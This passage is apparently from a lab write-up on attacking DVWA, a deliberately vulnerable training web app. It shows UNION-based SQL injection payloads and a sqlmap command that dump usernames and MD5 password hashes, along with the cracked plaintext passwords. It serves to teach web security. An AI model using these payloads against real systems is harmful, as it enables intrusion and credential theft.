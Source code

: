 ```

ID: ' union select column_name,null from information_schema.columns where table_name='users'-- -
First name: avatar
Surname: 
```

` ' union select user, password from users-- -`

```
ID: ' union select user, password from users-- -
First name: admin
Surname: 098f6bcd4621d373cade4e832627b4f6

ID: ' union select user, password from users-- -
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: ' union select user, password from users-- -
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: ' union select user, password from users-- -
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: ' union select user, password from users-- -
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

Looks like the passwords are MD5 hashed. However, they are easily found to be `test`, `abc123`, `charley`, `letmein` and `password` respectively. 

## 5.2 SQL Injection(Blind)

The blind SQL injection case uses the same vulnerable SQL query. The only difference is that the errors (from MySQL) are not shown to the user.
We can use `sqlmap` to automate SQL injection exploitation (especially in blind injection cases where injection uses MANY boolean or time based queries)

{{<codecaption lang="text" title="SQLMap Table Dump">}}
sqlmap -u "http://192.168.52.129/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=872eb7bf8ffde53b4d00d3c1a5df9a28" --dump

Database: dvwa
Table: users
[5 entries]
+---------+---------+-------------------------------------------------------+----------------------------------+-----------+------------+
| user_id | user    | avatar                                                | password                         | last_name | first_name |
+---------+---------+-------------------------------------------------------+----------------------------------+-----------+------------+
| 1       | admin   | http://192.168.52.129/dvwa/hackable/users/admin.jpg   | 098f6bcd4621d373cade4e832627b4f6 | admin     | admin      |
| 2       | gordonb | http://192.168.52.129/dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 | Brown     | Gordon     |
| 3       | 1337    | http://192.168.52.129/dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b | Me        | Hack       |
| 4       | pablo   | http://192.168.52.129/dvwa/hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 | Picasso   | Pablo      |
| 5       | smithy  | http://192.168.52.129/dvwa/hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 | Smith     | Bob        |
+---------+---------+-------------------------------------------------------+----------------------------------+-----------+------------+
{{</codecaption>}}


  [meta2]: http://sourceforge.net/projects/metasploitable/files/Metasploitable2/